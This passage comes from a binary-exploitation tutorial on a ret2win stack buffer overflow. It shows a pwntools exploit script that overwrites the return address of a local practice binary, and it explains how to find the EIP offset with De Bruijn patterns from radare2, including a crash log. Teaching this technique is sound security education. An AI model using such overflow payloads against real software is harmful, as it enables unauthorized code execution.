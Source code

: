 ```python
payload = b'A' * 52        # Notice the "b"
```

Otherwise, you will get a

```python
TypeError: can only concatenate str (not "bytes") to str
```

### Final Exploit

```python
from pwn import *            # This is how we import pwntools

p = process('./vuln')        # We're starting a new process

payload = b'A' * 52
payload += p32(0x080491c3)   # Use pwntools to pack it

log.info(p.clean())          # Receive all the text
p.sendline(payload)

log.info(p.clean())          # Output the "Exploited!" string to know we succeeded
```

## De Bruijn Sequences

> The better way to calculate offsets

De Bruijn sequences of order `n` is simply a sequence where no string of `n` characters is repeated. This makes finding the offset until EIP much simpler - we can just pass in a De Bruijn sequence, get the value within EIP and find the **one possible match** within the sequence to calculate the offset. Let's do this on the **ret2win** binary.

### Generating the Pattern

Again, `radare2` comes with a nice command-line tool (called `ragg2`) that can generate it for us. Let's create a sequence of length `100`.

```bash
$ ragg2 -P 100 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAh
```

The `-P` specifies the length while `-r` tells it to show ascii bytes rather than hex pairs.

### Using the Pattern

Now we have the pattern, let's just input it in `radare2` when prompted for input, make it crash, and then calculate how far along the sequence the EIP is. Simples.

```bash
$ r2 -d -A vuln

[0xf7ede0b0]> dc
Overflow me
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAh
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x41534141 code=1 ret=0
```
